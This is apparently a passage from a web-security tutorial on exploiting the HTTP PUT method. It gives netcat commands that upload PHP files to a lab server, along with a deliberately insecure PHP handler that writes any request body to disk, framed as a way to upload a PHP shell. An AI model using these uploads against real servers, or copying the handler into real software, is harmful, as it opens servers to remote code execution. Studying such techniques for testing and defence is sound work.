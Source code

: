 ###### Exploiting PUT
This verb can be used to upload a resource into the server. This is also a risky verb if not configured applicably.
For example suppose we want to write `<?php echo ‘Hello World’; ?>` in a new file as `hello.php`.
Make sure you give the correct length of your payload.

```
%  cat -e hello.php
<?php echo 'Hello World'; ?>$

% wc -m hello.php
29 hello.php

% nc localhost 80
PUT /hello.php HTTP/1.0
Content-Type: text/html
Content-Length: 29

<?php echo 'Hello World'; ?>
```
###### Uploading a PHP Shell with PUT
Suppose we have a php server code as follows, which created whatever file in the HTTP PUT request:
```
<?php
    $putdata = fopen("php://input", "r");
    $fp = fopen("myfile", "w");
    while ($data = fread($putdata, 1024)) fwrite($fp, $data);
    fclose($fp);
    fclose($putdata);
?>
```
I will save this as “put.php” in my root directory of the web server.
Now we can request “put.php” using the PUT verb and send our payload.

```
% cat -e phpinfo.php
<?php phpinfo(); ?>$

% wc -m phpinfo.php
20 phpinfo.php

% nc 192.168.1.5 80
PUT /put.php HTTP/1.0
Content-Type: text/html
Content-Length: 20

<?php phpinfo(); ?>
HTTP/1.1 200 OK
Date: Mon, 15 Jun 2015 06:48:16 GMT
Server: Apache/2.4.7 (Win32) OpenSSL/0.9.8y PHP/5.4.22
X-Powered-By: PHP/5.4.22
Content-Length: 0
Connection: close
Content-Type: text/html
```
